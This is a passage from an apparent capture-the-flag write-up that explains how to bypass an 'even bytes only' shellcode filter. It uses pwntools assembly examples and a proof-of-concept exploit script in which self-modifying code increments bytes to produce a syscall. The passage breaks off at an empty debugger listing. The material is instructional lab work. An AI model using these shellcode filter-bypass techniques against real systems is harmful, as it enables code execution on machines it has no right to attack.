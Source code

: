 error in a python terminal. You need to make sure that the context
architecture is 'amd64', then you can try various instructions and see the
results. Here is a selection of the most relevant, allowed
instructions/patterns; please note that attempts to move an odd number into a
register will not work, and you will be better off moving in the target value
- 1, then performing an inc to iterate it up by one:  
```  
>>> from pwn import *  
>>> context.clear(arch='amd64')  
>>> asm('mov eax, 2')  
b'\xb8\x02\x00\x00\x00'  
>>> asm('mov edx, 2')  
b'\xba\x02\x00\x00\x00'  
>>> asm('mov al, 2')  
b'\xb0\x02'  
>>> asm('mov dl, 2')  
b'\xb2\x02'  
>>> asm('inc al')  
b'\xfe\xc0'  
>>> asm('inc dl')  
b'\xfe\xc2'  
>>> asm('inc BYTE PTR ds:[rax];')  
b'\xfe\x00'  
>>> asm('inc BYTE PTR ds:[rdx];')  
b'\xfe\x02'  
```  
As a proof of concept, I first attempted to just make a syscall to see if it
would work. The basic idea is that for each odd byte in the non-workable
instruction, I will instead enter in that byte - 1. Then I move the rax (or
rdx) register up to the spot of shellcode where that byte is positioned, and
iterate the contents up with an inc instruction. Here is the basic script to
pull this off:  
```  
from pwn import *

target = process('./two')

pid = gdb.attach(target, "\nb *main+363\n set disassembly-flavor
intel\ncontinue")

#target = remote('host1.metaproblems.com', 5480)

print(target.recvuntil(b'What is your shellcode?'))

context.clear(arch='amd64')

shellcode = asm('''  
mov al, 8;  
inc BYTE PTR ds:[rax];  
inc al;  
inc BYTE PTR ds:[rax];  
''')

#The actual syscall shellcode is b'\x0f\x05'  
shellcode += b'\x0e\x04'

print(shellcode)

target.sendline(shellcode)

target.interactive()  
```  
Here is what the shellcode looks like in GDB/GEF when I initially start to
execute it:  
```  
```